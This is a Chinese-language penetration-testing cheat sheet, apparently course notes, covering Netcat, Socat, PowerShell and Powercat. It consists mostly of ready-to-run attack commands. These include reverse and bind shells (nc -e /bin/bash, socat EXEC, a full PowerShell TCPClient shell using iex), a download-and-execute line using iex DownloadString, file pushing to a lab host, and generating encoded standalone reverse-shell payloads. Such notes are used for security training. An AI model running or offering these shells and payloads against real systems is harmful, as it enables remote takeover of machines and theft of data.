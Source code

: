 # 3-Practical Tools

## Netcat

俗称”瑞士军刀“，使用TCP或UDP协议，通过网络连接读写数据的实用程序。

### 常用例子（格式一般为 nc 选项 IP 端口）：

连接目标的110端口：  `nc -nv 10.211.55.5 110` 

监听本地4444端口： `nc -nlvp 4444` 

### 传输文件:

接收文件： `nc -nlvp 4444 > incomfile` 

发送文件： `nc -nv 10.211.55.5 4444 < /home/kali/file1` 

### 绑定shell

```
nc -nvlp 4444 -e cmd.exe
```

### 反弹shell

```
nc -nv 10.211.55.5 4444 -e /bin/bash
```

## Socat

Socat 是一个命令行实用程序，它建立两个双向字节流并在它们之间传输数据。对于渗透测试，它类似于Netcat，但有额外的有用特性。

### Netcat vs Socat

```
nc <remote server's ip address> 80
socat - TCP4:<remote server's ip address>:80
```

### 常用例子

连接目标的443端口： `socat - TCP4:10.211.55.5:443` 

监听本地的443端口：  `sudo socat TCP4-LISTEN:443 STDOUT` 

### 传输文件

发送文件： `sudo socat TCP4-LISTEN:443,fork file:file1.txt` 

接收文件： `socat TCP4:10.211.55.5:443 file:received.txt,create` 

### 反弹shell

控制方：  `sudo socat -d -d TCP4-LISTEN:443 STDOUT` 

被控方： `socat TCP4:10.211.55.5:443 EXEC:/bin/bash` 

被控方（Windows）：  `socat TCP4:10.211.55.5:443 EXEC:'cmd.exe',pipes` 

### 绑定shell（无加密）

被控方： `sudo socat TCP4-LISTEN:43,fork EXEC:/bin/bash` 

控制方： `socat - TCP4:10.211.55.5:443` 

## PowerShell

Windows PowerShell 是一种基于任务的命令行shell和脚本语言。它是专门为系统管理员和高级用户设计的，用于快速自动化管理多个操作系统(Linux、macOS、Unix和Windows)以及与运行在这些操作系统上的应用程序相关的进程。

### 前提

首先要设置Powershell的执行策略为 Unrestricted

设置执行策略：  `Set-ExecutionPolicy Unrestricted` 

查看执行策略： `Get-ExecutionPolicy` 

### PowerShell 文件传输

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.211.55.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```

### PowerShell 反弹shell

```
powershell -Command {$client = New-Object System.Net.Sockets.TCPClient('10.211.55.5',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}
```

### PowerShell 绑定shell

```
`powershell -Command {$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()}
```

## Powercat

Powercat 本质上是由besimorhino编写的Netcat的PowerShell版本。这是一个我们可以下载到Windows主机上的脚本，以利用PowerShell的优势并简化绑定/反向shell的创建。

在kali上 `apt install powercat` 就可以下载脚本，默认放在/usr/share/windows-resources/powercat，可以通过传输文件的方式传输到目标windows上。

### 运行

1、从kali上将文件传输过来，然后用 `. .\powercat.ps1` 运行。

2、 `iex (New-Object System.Net.Webclient).DownloadString('https://raw. githubusercontent.com/besimorhino/powercat/master/powercat.ps1')` 

### 传输文件

发送文件：  `powercat -c 10.211.55.5 -p 443 -i C:\Users\Offsec\powercat.ps1` 

### 反弹shell

```
powercat -c 10.211.55.5 -p 443 -e cmd.exe
```

### 绑定shell

```
powercat -l -p 443 -e cmd.exe
```

### 用Powercat生成独立的payload

生成反弹shell脚本：`powercat -c 10.211.55.5 -p 443 -e cmd.exe -g > reverseshell.ps1` 

运行脚本： `./reverseshell.ps1` 

生成反弹shell编码数据： `powercat -c 10.211.55.5 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1` 

运行编码： `powershell.exe -E 编码的数据` 